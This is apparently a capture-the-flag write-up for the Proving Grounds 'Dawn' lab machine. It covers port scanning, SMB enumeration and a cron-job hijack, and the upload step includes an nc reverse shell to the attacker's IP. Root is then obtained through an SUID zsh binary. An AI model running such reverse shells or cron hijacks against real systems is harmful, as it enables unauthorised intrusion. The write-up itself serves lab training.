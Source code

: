 ```yaml
---
title: "Proving grounds Play: Dawn"
layout: post
date: 2023-09-23 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
```

## Web PORT: 80

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Dawn/dir.png)

### Logs

![img](/assets/images/CTF/Proving_Grounds/Dawn/logs.png)

## SMB Enumeration

```sh
smbclient -L //192.168.175.11/ -N
```

![img](/assets/images/CTF/Proving_Grounds/Dawn/smb1.png)

As per the `management.log` file there is a cron job running on `ITDEPT` folder, and in SMB we have access to the ITDEPT folder.

```log
2020/08/12 09:03:02 [31;1mCMD: UID=1000 PID=939    | /bin/sh -c /home/dawn/ITDEPT/product-control [0m
```

Create file named `product-control` add a reverse shell code to the file and upload it in the SMB server.

```sh
#!/bin/bash
nc -c bash 192.168.45.223 1234
```

So when the cronjob runs the script we will get the reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Dawn/smb2.png)

Wait for few seconds for the cron job to run.

![img](/assets/images/CTF/Proving_Grounds/Dawn/shell.png)

**Initial Foothold Obtained**

## Privilege Escalation

Check the user permissions `sudo -l` the user  `Dawn` has permission to run `/usr/bin/msql` without password. But unfortunately it didn't work.

### SUIDs

```sh
dawn@dawn:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh #Odd to be here
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
```

The SUID `zsh` is exploitable, direct to GTFO bins and find the exploit.

![img](/assets/images/CTF/Proving_Grounds/Dawn/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).